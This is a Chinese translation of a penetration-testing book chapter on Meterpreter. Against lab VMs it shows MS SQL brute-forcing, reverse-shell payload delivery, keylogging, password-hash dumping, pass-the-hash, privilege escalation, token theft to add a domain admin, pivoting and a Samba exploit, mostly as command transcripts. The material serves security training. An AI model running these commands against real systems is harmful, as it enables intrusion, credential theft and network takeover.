

## 第六章。Meterpreter

在本章中，我们将深入探讨这个“黑客瑞士军刀”，它可以显著提高你的后利用体验。Meterpreter 是 Metasploit 的旗舰产品之一，在利用漏洞后作为有效载荷使用。*有效载荷*是我们触发漏洞时返回给我们的信息。例如，当我们利用远程过程调用（RPC）中的弱点，触发漏洞，并选择 Meterpreter 作为有效载荷时，我们会获得一个 Meterpreter shell 来访问系统。Meterpreter 是 Metasploit 框架的扩展，允许我们利用 Metasploit 的功能并进一步攻破我们的目标。这些功能包括掩盖你的行踪、纯内存中驻留、转储散列、访问操作系统、跳板等。

在本章中，我们将利用 Metasploit 中的常规攻击方法来攻击 Windows XP 机器。我们的有效载荷，Meterpreter，将允许我们在攻破系统后执行额外的攻击。

## 攻破 Windows XP 虚拟机

在我们深入研究 Meterpreter 的具体细节之前，我们首先需要攻破一个系统并获得一个 Meterpreter shell。

### 使用 Nmap 扫描端口

我们首先通过使用 *nmap* 进行端口扫描来识别目标上运行的服务和端口，以找到一个可利用的端口，如下所示：

```
msf > `nmap -sT -A -P0 192.168.33.130` 
[*] exec: nmap -sT -A -P0 192.168.33.130

`. . . SNIP. . .`

PORT     STATE SERVICE      VERSION
21/tcp   open  `ftp          Microsoft ftpd` 
25/tcp   open  `smtp         Microsoft ESMTP 6.0.2600.2180` 
80/tcp   open  `http         Microsoft IIS webserver 5.1` 
|_html-title: Directory Listing Denied
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds Microsoft Windows XP microsoft-ds
1025/tcp open  msrpc        Microsoft Windows RPC
1433/tcp open  `ms-sql-s     Microsoft SQL Server 2005 9.00.1399; RTM` 
6646/tcp open  unknown
MAC Address: 00:0C:29:EA:26:7C (VMware)
Device type: general purpose
Running: Microsoft Windows XP|2003
OS details: Microsoft Windows XP Professional SP2  or Windows Server 2003

`. . . SNIP . . .`

Nmap done: 1 IP address (1 host up) scanned in 37.58 seconds

msf >
```

在进行我们的端口扫描  后，我们发现一些有趣的端口是可访问的，包括 MS SQL ，这是一个潜在的攻击向量。但也许 *nmap* 告诉我们最有趣的事情是，这台机器正在运行 Windows XP Service Pack 2 ，目前该系统已到生命终结期，这意味着一些已发布的漏洞可能尚未通过安装 SP3 得到修复或修补。

值得注意的是，我们还看到了标准的 FTP  和 SMTP  端口，这些端口可能可用于攻击。我们还看到端口 80  已开启，这意味着我们有一个潜在的 Web 应用程序可以攻击。

### 攻击 MS SQL

在这个例子中，我们将攻击端口 1433，MS SQL，因为这通常是弱点的一个入口点，可能导致完全攻破并对目标拥有完全的行政级控制。

首先，我们识别 MS SQL 安装，然后启动 MS SQL 服务器暴力破解攻击，看看我们是否能猜出密码。默认情况下，MS SQL 安装在 TCP 端口 1433 和 UDP 端口 1434 上，尽管新版本允许在动态分配的端口上安装，这可以是随机的。幸运的是，端口 1434 UDP（我们未对其进行扫描）保持不变，可以查询以确定 SQL 服务器的动态端口。

在这里，我们扫描系统并看到 MS SQL 端口 1434 UDP 已开启：

```
msf > `nmap -sU 192.168.33.130 -p1434` 

Nmap scan report for 192.168.33.130
Host is up (0.00033s latency).
PORT     STATE         SERVICE
1434/udp open         ms-sql-m 

Nmap done: 1 IP address (1 host up) scanned in 0.46 seconds
msf >
```

如您所见，我们在处扫描我们的宿主，并看到 MS SQL UDP 端口 1434 在处是开放的。（第十一章，第十三章，和第十七章将更深入地介绍 MS SQL。）

当针对 MS SQL 时，我们可以利用*mssql_ping*模块暴力破解 MS SQL 端口，并尝试猜测用户名和密码。当 MS SQL 首次安装时，程序将要求用户创建一个*sa*，或系统管理员，账户。你通常会能够猜测或暴力破解*sa*账户密码，因为当管理员安装此应用程序时，他们并不了解使用空密码或过于简单的密码的安全影响。

在下一个示例中，我们寻找*mssql_ping*模块并尝试暴力破解*sa*账户：

```
msf > `use scanner/mssql/mssql_ping`
msf auxiliary(mssql_ping) > `show options`

Module options:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        The password for the specified username
   RHOSTS                     yes       The target address range or CIDR identifier
   THREADS   1                yes       The number of concurrent threads
   USERNAME  sa               no        The username to authenticate as

msf auxiliary(mssql_ping) > `set RHOSTS 192.168.33.1/24`
RHOSTS => 192.168.33.1/24
msf auxiliary(mssql_ping) > `set THREADS 20`
THREADS => 20
msf auxiliary(mssql_ping) > `exploit`

[*] Scanned 040 of 256 hosts (015% complete)
[*] Scanned 052 of 256 hosts (020% complete)
[*] Scanned 080 of 256 hosts (031% complete)
[*] Scanned 115 of 256 hosts (044% complete)
[*] SQL Server information for 192.168.33.130: 
[*]    ServerName      = IHAZSECURITY 
[*]    InstanceName    = SQLEXPRESS
[*]    IsClustered     = No
[*]    Version         = 9.00.1399.06 
[*]    tcp             = 1433 
[*]    np              = \\IHAZSECURITY\pipe\MSSQL$SQLEXPRESS\sql\query
[*] Scanned 129 of 256 hosts (050% complete)
```

在使用`use scanner/mssql/mssql_ping`调用*mssql_ping*模块并设置我们的选项后，我们看到在 192.168.33.130 处找到了一个 SQL Server 安装。服务器的名称是`IHAZSECURITY`。其版本号 9.00.1399.06，如所示，相当于 SQL Server 2005 Express，我们知道它在 TCP 端口 1433 上监听。

### 暴力破解 MS SQL 服务器

接下来，我们使用框架的*mssql_login*模块暴力破解服务器：

```
msf > `use scanner/mssql/mssql_login` 
msf auxiliary(mssql_login) > `show options`

Module options:

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   PASSWORD                           no
        The password for the specified username
   PASS_FILE                          no
        File containing passwords, one per line
   RHOSTS                             yes       The target
 address range or CIDR identifier
   RPORT             1433             yes       The target port
   THREADS           1                yes       The number of concurrent threads
   USERNAME          sa               no        The username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords
                                                  separated by
 space, one pair per line
   USER_FILE                          no        File containing
 usernames, one per line
   VERBOSE           true             yes       Whether to print
 output for all attempts

msf auxiliary(mssql_login) >
 `set PASS_FILE /pentest/exploits/fasttrack/bin/dict/wordlist.txt` 
PASS_FILE => /pentest/exploits/fasttrack/bin/dict/wordlist.txt
msf auxiliary(mssql_login) > `set RHOSTS 192.168.33.130`
RHOSTS => 192.168.33.130
msf auxiliary(mssql_login) > `set THREADS 10`
THREADS => 10
msf auxiliary(mssql_login) > `set verbose false`
verbose => false
msf auxiliary(mssql_login) > `exploit`
[+] 192.168.33.130:1433 - MSSQL - successful login 'sa' : `'password123'` 
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

我们在处选择*mssql_login*模块，并将其指向 Fast-Track 的默认密码词表。（我们在第十一章中更详细地讨论了 Fast-Track。）在处，我们成功猜出了*sa*密码：*password123*。

* * *

### 注意

Fast-Track 是由本书的一位作者创建的一个工具，它利用多种攻击、漏洞和 Metasploit 框架进行有效载荷交付。Fast-Track 的一个特性是它能够使用暴力破解器自动攻击和利用 MS SQL。

* * *

### xp_cmdshell

通过从*sa*账户运行 MS SQL，我们可以执行存储过程`xp_cmdshell`，它允许我们与底层操作系统交互并执行命令。`xp_cmdshell`是一个默认与 SQL Server 一起提供的内置存储过程。你可以调用这个存储过程，并直接通过 MS SQL 查询和执行底层操作系统调用。把它想象成一个超级用户命令提示符，允许你在操作系统上运行任何你想要的东西。当我们获得对*sa*账户的访问权限时，我们发现 MS SQL 服务器通常以 SYSTEM 级别的权限运行，这允许我们作为管理员完全访问 MS SQL 和机器本身。

要将有效载荷放入系统，我们将与`xp_cmdshell`交互，添加本地管理员，并通过可执行文件交付有效载荷。David Kennedy 和 Joshua Drake（*jduck*）编写了一个模块（*mssql_payload*），可以通过`xp_cmdshell`交付任何 Metasploit 有效载荷：

```
msf > `use windows/mssql/mssql_payload` 
msf exploit(mssql_payload) > `show options`

Module options:

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   PASSWORD                       no        The password for the specified username
   RHOST                          yes       The target address
   RPORT         1433             yes       The target port
   USERNAME      sa               no        The username to authenticate as
   UseCmdStager  true             no        Wait for user input before
 returning from exploit
   VERBOSE       false            no        Enable verbose output

Exploit target:

   Id  Name
   --  ----
   0   Automatic
msf exploit(mssql_payload) > `set payload windows/meterpreter/reverse_tcp` 
payload => windows/meterpreter/reverse_tcp
msf exploit(mssql_payload) > `set LHOST 192.168.33.129`
LHOST => 192.168.33.129
msf exploit(mssql_payload) > `set LPORT 443`
LPORT => 443
msf exploit(mssql_payload) > `set RHOST 192.168.33.130`
RHOST => 192.168.33.130
msf exploit(mssql_payload) > `set PASSWORD password123`
PASSWORD => password123
msf exploit(mssql_payload) > `exploit`

[*] Started reverse handler on 192.168.33.129:443
[*] Command Stager progress - 2.78% done (1494/53679 bytes)
[*] Command Stager progress - 5.57% done (2988/53679 bytes)
[*] Command Stager progress - 8.35% done (4482/53679 bytes)

`. . . SNIP . . .`

[*] Command Stager progress - 97.32% done (52239/53679 bytes)
[*] Sending stage (748032 bytes)
[*] Meterpreter session 1 opened (192.168.33.129:443 -> 192.168.33.130:1699)
meterpreter > 
```

在选择*mssql_payload*模块并将我们的有效载荷设置为`meterpreter`在之后，我们只需要在启动 Meterpreter 会话之前设置标准选项。我们已经成功在目标机器上的上打开了一个 Meterpreter 会话。

总结一下，在本章描述的攻击中，我们使用了*mssql_ping*模块来猜测 MS SQL *sa*密码，我们发现密码是*password123*。然后我们利用*mssql_payload*模块通过 MS SQL 与 MS SQL 进行通信，并通过 MS SQL 上传 Meterpreter 外壳，外壳被展示给我们，从而完全控制了系统。一旦 Meterpreter 外壳被展示，我们就知道利用成功，可以继续在这个系统上进行后利用操作。

### 基本 Meterpreter 命令

在成功入侵目标并获取系统上的 Meterpreter 控制台后，我们可以使用一些基本的 Meterpreter 命令来获取更多信息。在任何时候使用`help`命令获取有关如何使用 Meterpreter 的更多信息。

#### 捕获屏幕截图

Meterpreter 的`screenshot`命令将导出活动用户的桌面图像，并将其保存到*/opt/metasploit3/msf3/*目录中，如图图 6-1 所示。

```
meterpreter > `screenshot`
Screenshot saved to: /opt/metasploit3/msf3/yVHXaZar.jpeg
```

桌面屏幕截图是了解目标系统的一种很好的方法。例如，在图 6-1 中，我们可以看到 McAfee 杀毒软件已安装并运行，这意味着我们需要小心上传到系统中的内容。（第七章更详细地讨论了杀毒软件规避方法。）

图 6-1. Meterpreter 捕获的屏幕截图

#### sysinfo

另一个我们可以指定的命令是`sysinfo`，它将告诉我们系统正在运行的平台，如下所示：

```
meterpreter > `sysinfo`
Computer: IHAZSECURITY
OS      : Windows XP (Build 2600, Service Pack 2).
Arch    : x86
Language: en_US
```

如您所见，该系统正在运行 Windows XP Service Pack 2。由于 SP2 已停止支持，我们可以假设在这个系统上可以找到大量的漏洞。

### 捕获按键

现在，我们将从该系统中抓取密码散列值，这些值可以破解或用于攻击。我们还将开始在远程系统上启动*按键记录*（记录按键）。但在开始之前，让我们使用`ps`命令列出目标系统上正在运行的过程。

```
meterpreter > `ps` 

Process list
============

 PID   Name                 Arch  Session  User                          Path
 ---   ----                 ----  -------  ----                          ----
 0     [System Process]
 4     System               x86   0        NT AUTHORITY\SYSTEM

`. . . SNIP . . .`

 1476  spoolsv.exe          x86    0        NT AUTHORITY\SYSTEM           C:\WINDOWS\
    system32\spoolsv.exe
 1668  explorer.exe 
       x86    0        IHAZSECURITY\Administrator    C:\WINDOWS\
    Explorer.EXE

`. . . SNIP . . .`

 4032  notepad.exe         x86    0        IHAZSECURITY\Administrator    C:\WINDOWS\
    system32\notepad.exe

meterpreter > `migrate 1668` 
[*] Migrating to 1668...
[*] Migration completed successfully.
meterpreter > `run post/windows/capture/keylog_recorder` 
[*] Executing module against V-MAC-XP
[*] Starting the keystroke sniffer...
[*] Keystrokes being saved in to /root/.msf3/loot/
20110324171334_default_192.168.1.195_host.windows.key_179703.txt
[*] Recording keystrokes...
[*] Saving last few keystrokes...

root@bt:˜# `cat /root/.msf3/loot/20110324171334_`
`default_192.168.1.195_host.windows.key_179703.txt` 
Keystroke log started at Thu Mar 24 17:13:34 −0600 2011

administrator password <Back>  <Back>  <Back>  <Back>  <Back>  <Back>
  <Back>  <Tab> password123!!
```

在处执行`ps`命令提供了一个运行进程列表，包括*explorer.exe* 。在处，我们发出`migrate`命令将我们的会话移动到*explorer.exe*进程空间。一旦移动完成，我们在处启动*keylog_recorder*模块，使用 ctrl-C 停止它，最后，在另一个终端窗口中，我们将键盘记录器的内容导出，以查看我们捕获了什么。

## 导出用户名和密码

在前面的例子中，我们通过记录用户输入的内容来获取密码哈希值。我们也可以使用 Meterpreter 在本地文件系统上获取用户名和密码哈希值，而不使用键盘记录器。

### 提取密码哈希值

在这次攻击中，我们将利用 Meterpreter 中的*hashdump*后利用模块从系统中提取用户名和密码哈希值。微软通常在局域网管理器（LM）、NT 局域网管理器（NTLM）和 NT 局域网管理器 v2（NTLMv2）上存储哈希值。

例如，在 LM 的情况下，当用户第一次输入密码或更改密码时，密码会被分配一个哈希值。根据哈希值的长度，密码可以被分成七个字符的哈希值。例如，如果密码是*password123456*，哈希值可能被存储为*passwor*和*d123456*，因此攻击者只需破解一个 7 个字符的密码，而不是 14 个字符的密码。在 NTLM 中，无论密码大小如何，*password123456*都会被存储为*password123456*的哈希值。

* * *

### 注意

我们在这里使用了一个超级复杂的密码，我们无法在合理的时间内破解它。我们的密码长度超过了 LM 支持的 14 个字符最大限制，因此它已经自动转换为基于 NTLM 的哈希值。即使使用彩虹表或超级强大的破解机器，破解这些密码也需要相当长的时间。

* * *

在下面的代码中，我们提取了 UID 为 500 的*Administrator*用户账户的用户名和密码哈希值（Windows 管理员系统默认）。跟随`Administrator:500`的字符串是*Administrator*密码的两个哈希值。这展示了简单提取用户名和密码哈希值的一个例子。简而言之，我们将在 Windows XP 系统中提取我们自己的用户名和密码哈希值。

```
Administrator:500:e52cac67419a9a22cbb699e2fdfcc59e 
 :30ef086423f916deec378aac42c4ef0c :::
```

在处的第一个哈希值是 LM 哈希，在处的第二个是 NTLM 哈希。

### 导出密码哈希值

在目标机器上，将您的密码更改为复杂的密码，例如*thisisacrazylongpassword&&!!@@##*，并使用 Meterpreter 从目标再次导出用户名和密码哈希值（如前代码列表所示）。我们将利用`use priv`命令，这意味着我们正在以特权用户账户运行。

要导出安全账户管理器（SAM）数据库，我们需要以 SYSTEM 身份运行，以绕过注册表限制并导出包含我们的 Windows 用户名和密码的保护 SAM 存储，如下所示。尝试在一个测试虚拟机上执行此场景，看看你是否能导出用户名和密码散列。在这个列表中，我们执行了`hashdump`命令，该命令从系统中导出所有用户名和密码散列。

```
meterpreter > `use priv`
Loading extension priv...success.
meterpreter > `run post/windows/gather/hashdump`
[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 8528c78df7ff55040196a9b670f114b6...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hashes...
Administrator:500:aad3b435b51404eeaad3b435b51404ee:b75989f65d1e04af7625ed712ac36c29:::
```

以*aad3b435*开头的散列值只是一个空或空散列值——一个空字符串的占位符。（类似于*Administrator:500:NOPASSWD:ntlmhash*也是空。）因为我们的密码长度超过 14 个字符，Windows 不能再存储 LM 散列，它使用标准的*aad3b435*...字符串，这代表一个空密码。

***

### LM 散列的问题

为了好玩，尝试以下操作：将你的密码改为一个复杂度较高且长度不超过 14 个字符的密码。然后使用`hashdump`从系统中提取密码散列，并复制第一个散列值（例如，在前面示例中以*aad3b435*开始的那个部分），这是 LM 散列。接下来，搜索许多在线密码破解器之一，提交你的散列值。等待几分钟，点击刷新按钮几次，你的密码应该被破解。（小心不要使用你的真实密码，因为信息经常被发布给所有访问该网站的人！）

这是一个*彩虹表*攻击。彩虹表是一个用于反转加密散列函数的预计算表，通常用于破解密码。彩虹表使用包括 1–7，a–z，特殊符号和空格在内的所有字符组合。当你将你的散列提交给在线破解器时，网站的服务器会搜索数 GB 的彩虹表以找到你的特定散列。

***

## 传递散列

在前面的例子中，我们遇到了一点小麻烦：我们有了管理员的用户名和密码散列，但我们无法在合理的时间内破解密码。如果我们不知道密码，我们如何登录到额外的机器，并可能使用这个用户账户破坏更多的系统？

我们可以使用*传递散列*技术，这要求我们只有密码散列，而不是密码本身。Metasploit 的*windows/smb/psexec*模块使得这一切成为可能，如下所示：

```
msf> `use windows/smb/psexec` 
msf exploit(psexec)> `set PAYLOAD windows/meterpreter/reverse_tcp`
payload => windows/meterpreter/reverse_tcp
msf exploit(psexec)> `set LHOST 192.168.33.129`
LHOST => 192.168.33.129
msf exploit(psexec)> `set LPORT 443`
LPORT => 443
msf exploit(psexec)> `set RHOST 192.168.33.130`
RHOST => 192.168.33.130

`. . . SNIP . . .`

msf exploit(psexec)> `set SMBPass`
`aad3b435b51404eeaad3b435b51404ee:b75989f65d1e04af7625ed712ac36c` 
SMBPass => aad3b435b51404eeaad3b435b51404ee:b75989f65d1e04af7625ed712ac36c29
msf exploit(psexec)> `exploit`
[*] Connecting to the server...
[*] Started reverse handler
[*] Authenticating as user 'Administrator'...
[*] Uploading payload...
[*] Created \JsOvAFLy.exe...
```

在我们选择*smb/psexec*模块并在设置`LHOST`、`LPORT`和`RHOST`的选项后，我们设置`SMBPass`变量，并在输入我们之前导出的散列。正如你所看到的，认证成功，我们获得了 Meterpreter 会话。我们不需要破解密码，也不需要密码。我们仅使用密码散列就获得了*管理员*权限。

当我们在大型网络中成功攻陷一个系统时，在大多数情况下，该系统将在多个系统上拥有相同的管理员账户。这种攻击将使我们能够从一个系统跳到另一个系统，而无需破解密码本身。

## 提权

现在我们已经可以访问系统，我们可以使用`net user`命令创建一个具有有限权限的正常用户账户。我们将创建一个新的用户账户来演示如何以该用户提升权限。（你将在第八章中了解更多关于此内容。）

当我们攻陷一个受限用户账户时，我们会遇到限制，阻止我们执行需要管理员级别权限的命令。通过提升账户的权限，我们克服了这种限制。

在 Windows XP 目标机器上，我们输入以下命令：

```
C:\Documents and Settings\Administrator>`net user bob password123 /add.`
```

接下来，我们创建一个基于 Meterpreter 的有效载荷，命名为*payload.exe*，将其复制到目标 XP 机器上，并在用户账户*bob*下运行它。这将是我们新的受限用户账户。在这个例子中，我们将使用*msfpayload*来创建一个基于 Meterpreter 的有效载荷，作为一个普通的 Windows 可执行文件。（我们将在第七章中更详细地讨论*msfpayload*。）

```
root@bt:/opt/framework3/msf3# `msfpayload windows/meterpreter/reverse_tcp`
`LHOST=192.168.33.129 LPORT=443 X > payload.exe` 
root@bt:/opt/framework3/msf3# `msfcli multi/handler`
 `PAYLOAD=windows/meterpreter/reverse_tcp`
`LHOST=192.168.33.129 LPORT=443 E` 
[*] Please wait while we load the module tree...
[*] Started reverse handler on 192.168.33.129:443
[*] Starting the payload handler...
[*] Sending stage (748032 bytes)
[*] Meterpreter session 1 opened (192.168.33.129:443 -> 192.168.33.130:1056)
meterpreter > `getuid` 
Server username: IHAZSECURITY\bob
```

`LHOST`和`LPORT`选项告诉 Metasploit，当它创建我们的 Meterpreter 有效载荷时，应该连接回我们的攻击机器的 443 端口。然后我们调用*msfcli*接口为我们启动一个监听处理器。这个监听处理器将等待连接，当收到连接时，它将启动一个 Meterpreter shell。

在攻击机器上，我们在处创建一个新的 Meterpreter 独立可执行文件，将可执行文件复制到 Windows XP 机器上，并在用户账户*bob*下运行它。

然后，我们在处设置一个监听器以监听 Meterpreter 连接。当目标在系统上执行有效载荷(*payload.exe*)后，我们看到一个受限用户的 Meterpreter 控制台。例如，我们可以在 Back|Track 机器上生成一个*payload.exe*，将可执行文件复制到 Windows XP 机器上，并设置一个监听器以获取 Meterpreter 会话。

如下所示，我们在处进入 Meterpreter shell，输入**`net user bob`**；我们可以看到用户*bob*是*Users*组的成员，不是管理员，并且权限有限。我们从有限的足迹中攻击这个设备，不能执行某些攻击，例如转储 SAM 数据库以提取用户名和密码。（幸运的是，Meterpreter 已经为我们提供了覆盖，你将在下一刻看到。）我们的查询完成后，我们按 ctrl-Z，这将保存我们的 Meterpreter 会话并保持我们在被利用的系统上。

```
meterpreter > `shell` 
Process 2896 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
C:\>`net user bob`

`. . . SNIP . . .`

Local Group Memberships      *Users
Global Group memberships     *None
The command completed successfully.
C:\>`^Z`
Background channel 1? [y/N]  `y`
```

* * *

### 注意

这里是 Meterpreter 的另一个技巧：当你处于 Meterpreter 控制台时，输入**`background`**回到*msfconsole*并保持会话运行。然后输入`sessions -l`和`sessions -isessionid`返回到你的 Meterpreter 控制台。

* * *

现在我们来获取管理权限或 SYSTEM 权限。如以下列表所示，我们输入**`use priv`**来加载*priv*扩展，这使我们能够访问特权模块（可能已经加载）。接下来，我们输入**`getsystem`**尝试提升我们的权限到本地系统或管理员权限。然后我们使用**`getuid`**命令来验证我们是否有管理员权限。返回的服务器用户名是*NT AUTHORITY\SYSTEM*，这告诉我们我们已经成功获得了管理员访问权限。

```
meterpreter > `use priv`
Loading extension priv...success.
meterpreter > `getsystem`
...got system (via technique 4).
meterpreter > `getuid`
Server username: NT AUTHORITY\SYSTEM
```

要切换回我们最初获取 Meterpreter 外壳的先前用户账户，我们会使用`rev2self`。

## 令牌模拟

在*令牌模拟*中，我们在目标机器上抓取一个 Kerberos 令牌，然后用它代替认证来假设创建该令牌的原始用户的身份。令牌模拟对于渗透测试非常有用，可能是 Meterpreter 最强大的功能之一。

考虑以下场景，例如：你在你的组织进行渗透测试，你成功入侵系统并建立了 Meterpreter 控制台。在过去的 13 小时内，有一个域管理员账户已登录。当此账户登录时，一个 Kerberos 令牌被传递到服务器（单点登录），并在一定时间内有效。你通过有效的和活跃的 Kerberos 令牌利用这个系统，并通过 Meterpreter 成功模拟了域管理员的角色，而不需要密码。然后你黑掉域管理员账户或攻击域控制器。这可能是在系统中获得访问权限的最简单方法之一，也是 Meterpreter 为什么如此有用的另一个例子。

## 使用 ps

对于这个例子，我们将使用 Meterpreter 函数`ps`来列出正在运行的应用程序以及它们运行的账户。我们将使用域名*SNEAKS.IN* 和用户账户*ihazdomainadmin* 。

```
meterpreter > `ps`

Process list
============

 PID   Name                 Arch  Session  User                          Path
 ---   ----                 ----  -------  ----                          ----
 0     [System Process]
 4     System               x86   0        NT AUTHORITY\SYSTEM
380    cmd.exe              x86   0      SNEAKS.IN\ihazdomainadmin
   \System\
    Root\System32\cmd.exe

`. . . SNIP . . .`

meterpreter >
```

如以下列表所示，我们利用`steal_token`和 PID（在这个例子中是 380）来窃取该用户的令牌并假设域管理员的角色：

```
meterpreter > `steal_token 380`
Stolen token with username: SNEAKS.IN\ihazdomainadmin
meterpreter >
```

我们已经成功模拟了域管理员账户，现在 Meterpreter 正在该用户的上下文中运行。

在某些情况下，`ps`可能不会列出以域管理员身份运行的进程。我们可以利用`incognito`来列出系统上的可用令牌。在进行渗透测试时，我们应该检查`ps`和`incognito`的输出，因为结果可能会有所不同。

我们使用`use incognito`加载`incognito`，然后使用`list_tokens -u`列出令牌。在查看令牌列表时，我们看到  中的 *SNEAKS.IN\ihazdomainadmin* 用户账户。现在我们可以假装成另一个人。

```
meterpreter > `use incognito`
Loading extension incognito...success.
meterpreter > `list_tokens -u`
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
SNEAKS.IN\ihazdomainadmin 
IHAZSECURITY\Administrator
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM

Impersonation Tokens Available
========================================
NT AUTHORITY\ANONYMOUS LOGON
```

如下所示列表，我们成功地在  处模仿了`ihazdomainadmin`令牌，并在  处添加了一个用户账户，然后我们给它赋予了域管理员权限 。（在输入`DOMAIN\USERNAME`时，务必使用两个反斜杠 `\\`，如  所示。）我们的域控制器是 192.168.33.50。

```
meterpreter > `impersonate_token SNEAKS.IN\\ihazdomainadmin` 
[+] Delegation token available
[+] Successfully impersonated user SNEAKS.IN\ihazdomainadmin
meterpreter > `add_user omgcompromised p@55w0rd! -h 192.168.33.50` 
[*] Attempting to add user omgcompromised to host 192.168.33.50
[+] Successfully added user
meterpreter > `add_group_user "Domain Admins" omgcompromised -h 192.168.33.50`

[*]   Attempting to add user omgcompromised to
 group Domain Admins on domain controller
    192.168.33.50
[+] Successfully added user to group
```

当输入`add_user`和`add_group_user`命令时，务必指定`-h`标志，它告诉 Incognito 在哪里添加域管理员账户。在这种情况下，那将是域控制器的 IP 地址。这种攻击的影响是灾难性的：基本上，任何域管理员登录的系统上的 Kerberos 令牌都可以假定并用于访问整个域。这意味着你网络上的每台服务器都是你的薄弱环节！

## 跳板到其他系统

*跳板* 是 Meterpreter 的一种方法，允许通过 Meterpreter 控制台攻击网络上的其他系统。例如，如果攻击者攻陷了一个系统，他可以使用跳板来攻陷同一网络上的其他系统，或者访问他无法通过其他方式路由流量的系统，无论出于什么原因。

例如，假设你正在从互联网进行渗透测试。你通过一个漏洞攻陷了一个系统，并拥有一个指向内部网络的 Meterpreter 控制台。你无法直接访问网络上的其他系统，因为被攻陷的系统没有提供你进行此类操作所需的一切，但你需要进一步渗透网络。跳板攻击将允许你通过 Meterpreter 控制台，通过互联网攻击内部网络上的多个系统。

在以下示例中，我们将从一个子网攻击一个系统，并将该系统路由到攻击另一个系统。首先，我们将利用 Windows XP 机器，然后我们将从我们的攻击机器通过跳板攻击内部网络上的 Ubuntu 系统。我们将从 10.10.1.1/24 地址开始，攻击 192.168.33.1/24 网络内的系统。

我们假设我们已经通过攻陷获得了一个服务器的访问权限，并将重点放在建立与该网络的连接上。接下来，我们将介绍使用 Meterpreter 编写的外部脚本，这些脚本可以在*scripts/meterpreter/*目录中找到。这些脚本提供了我们可以在 Meterpreter 中使用的一些附加功能。

我们首先在 Meterpreter 会话中使用`run get_local_subnets`显示被攻陷系统上的本地子网，如图所示 。

```
[*] Meterpreter session 1 opened (10.10.1.129:443 -> 192.168.33.130:1075)

meterpreter > `run get_local_subnets` 
Local subnet: 192.168.33.0/255.255.255.0
meterpreter > `background` 
msf exploit(handler) > `route add 192.168.33.0 255.255.255.0 1` 
msf exploit(handler) > `route print` 

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.33.0       255.255.255.0      Session 1 
```

我们已成功入侵 Windows XP 机器，并对其拥有完全访问权限。接下来，我们在处将运行会话置于后台，并在处向 Framework 添加一个`route`命令，告诉它通过会话 1（后台 Meterpreter 会话）路由远程网络 ID。然后我们使用`route print`在处显示活动路由，并在处清楚地看到，正如我们期望的那样，路由是激活的。

接下来，我们将针对目标 Linux 系统设置第二个漏洞利用。这里的特定漏洞利用是基于 Samba 的堆溢出，这将在我们的 Metasploitable 机器上造成漏洞。

```
use msf exploit(handler) > `use linux/samba/lsa_transnames_heap`
msf exploit(lsa_transnames_heap) > `set payload linux/x86/shell/reverse_tcp`
payload => linux/x86/shell/reverse_tcp
msf exploit(lsa_transnames_heap) > `set LHOST 10.10.1.129` 
LHOST => 10.10.1.129
msf exploit(lsa_transnames_heap) > `set LPORT 8080`
LPORT => 8080
msf exploit(lsa_transnames_heap) > `set RHOST 192.168.33.132` 
RHOST => 192.168.33.132
msf exploit(lsa_transnames_heap) > `ifconfig` 
[*] exec: ifconfig

eth0      Link encap:Ethernet  HWaddr 00:0c:29:47:e6:79
          inet addr:10.10.1.129  Bcast:10.10.1.255  Mask:255.255.255.0
          inet6 addr: fe80::20c:29ff:fe47:e679/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:23656 errors:0 dropped:0 overruns:0 frame:0
          TX packets:32321 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:4272582 (4.2 MB)  TX bytes:17849775 (17.8 MB)
          Interrupt:19 Base address:0x2000

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:600 errors:0 dropped:0 overruns:0 frame:0
          TX packets:600 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:41386 (41.3 KB)  TX bytes:41386 (41.3 KB)

msf exploit(lsa_transnames_heap) > `exploit`

[*] Started reverse handler on 10.10.1.129:8080
[*] Creating nop sled....
[*] Trying to exploit Samba with address 0xffffe410...
[*] Connecting to the SMB service...
[*] Binding to 12345778-1234-abcd-ef00-0123456789
ab:0.0@ncacn_np:192.168.33.132[\lsarpc] ...
[*] Bound to 12345778-1234-abcd-ef00-0123456789ab:0.0@
ncacn_np:192.168.33.132[\lsarpc] ...
[*] Calling the vulnerable function...
[+] Server did not respond, this is expected
[*] Trying to exploit Samba with address 0xffffe411...
[*] Connecting to the SMB service...
[*] Binding to 12345778-1234-abcd-ef00-0123456789ab:0.0
@ncacn_np:192.168.33.132[\lsarpc] ...
[*] Bound to 12345778-1234-abcd-ef00-0123456789ab:0.0
@ncacn_np:192.168.33.132[\lsarpc] ...
[*] Calling the vulnerable function...
[+] Server did not respond, this is expected
[*] Trying to exploit Samba with address 0xffffe412...
[*] Connecting to the SMB service...
[*] Binding to 12345778-1234-abcd-ef00-0123456789ab:
0.0@ncacn_np:192.168.33.132[\lsarpc] ...
